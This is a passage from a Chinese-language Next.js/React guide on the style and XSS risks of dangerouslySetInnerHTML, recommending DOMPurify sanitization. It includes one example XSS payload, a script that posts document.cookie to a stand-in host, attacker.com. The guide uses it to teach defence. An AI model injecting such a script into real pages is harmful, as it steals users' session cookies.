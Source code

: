 XSS（Cross - Site Scripting）攻击是一种常见的 Web 安全漏洞，攻击者通过在网页中注入恶意脚本，当用户浏览该网页时，恶意脚本就会在用户的浏览器中执行。这些恶意脚本可以获取用户的敏感信息，如 Cookie、登录凭证等，或者进行一些恶意操作，如篡改页面内容、重定向用户等。

## 最佳实践与安全建议

在使用 `dangerouslySetInnerHTML` 时，如果不进行适当的安全处理，就很容易引入 XSS 漏洞。**永远不要直接渲染用户输入的 HTML 内容！**

例如，恶意用户可能会输入如下内容：

```html
<script>
  // 窃取用户Cookie并发送到攻击者服务器
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "https://attacker.com/steal", true);
  xhr.send(document.cookie);
</script>
```

如果应用没有对用户输入进行严格的过滤和净化，这段恶意脚本就会在用户的浏览器中执行，导致用户信息泄露。因此，在使用 `dangerouslySetInnerHTML` 时，务必结合安全措施，如使用 DOMPurify 等 sanitizer 库对输入进行净化，以防止 XSS 攻击。

### 总结

- 避免在 HTML 字符串中插入全局样式。
- SSR 场景下注意内容一致性和 DOMPurify 的用法。
- 永远不要直接渲染用户输入的 HTML。
- 必须使用 DOMPurify 等库净化所有不可信 HTML。

在 Next.js 中使用`dangerouslySetInnerHTML`时，我们需要充分了解其带来的样式问题和安全风险，并采取合适的解决方案来确保应用的稳定性和安全性。通过正确的样式隔离方法和对不可信 HTML 内容的净化处理，我们可以在享受`dangerouslySetInnerHTML`带来的便利的同时，避免潜在的问题。

> （注：文档部分内容可能由 AI 生成）
